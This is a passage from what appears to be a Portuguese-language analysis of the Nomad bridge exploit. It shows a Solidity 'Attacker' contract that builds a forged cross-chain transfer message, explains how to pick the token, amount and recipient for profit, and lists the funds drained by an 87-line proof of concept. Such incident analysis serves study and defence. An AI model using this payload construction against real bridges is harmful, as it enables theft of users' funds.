 *Gerando uma mensagem válida*
```solidity=
contract Attacker {
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   function genPayload(
       address recipient,
       address token,
       uint256 amount
   ) internal pure returns (bytes memory payload) {
       payload = abi.encodePacked(
           MOONBEAM,                           // Home chain domain
           uint256(uint160(BRIDGE_ROUTER)),    // Sender: bridge
           uint32(0),                          // Dst nonce
           ETHEREUM,                           // Dst chain domain
           uint256(uint160(ERC20_BRIDGE)),     // Recipient (Nomad ERC20 bridge)
           ETHEREUM,                           // Token domain
           uint256(uint160(token)),            // token id (e.g. WBTC)
           uint8(0x3),                         // Type - transfer
           uint256(uint160(recipient)),        // Recipient of the transfer
           uint256(amount),                    // Amount
           uint256(0)                          // Optional: Token details hash
                                               // keccak256(                 
                                               //     abi.encodePacked(
                                               //         bytes(tokenName).length,
                                               //         tokenName,
                                               //         bytes(tokenSymbol).length,
                                               //         tokenSymbol,
                                               //         tokenDecimals
                                               //     )
                                               // )
       );
   }
}
```

No processo de geração de mensagens, é importante codificar corretamente os diferentes parâmetros para garantir que o protocolo Nomad possa decodificá-los corretamente. Também precisamos especificar o caminho de roteamento para a mensagem - o contrato de roteamento da ponte e o endereço da ponte ERC20. Além disso, precisamos usar 0x3 como tipo para representar a transferência de token.

Por fim, precisamos determinar os parâmetros que nos trarão lucro - o endereço do token, a quantidade a ser transferida e o destinatário. Como mencionado anteriormente, isso criará informações completamente novas para o contrato Replica.

Incrivelmente, mesmo com algumas informações de log relacionadas ao Foundry, o código completo da PoC tem apenas 87 linhas. Executando o código de reprodução acima, podemos obter os seguintes fundos:

- 1.028 WBTC
- 22.876 WETH
- 87.459.362 USDC
- 8.625.217 USDT
- 4.533.633 DAI
- 119.088 FXS
- 113.403.733 CQT

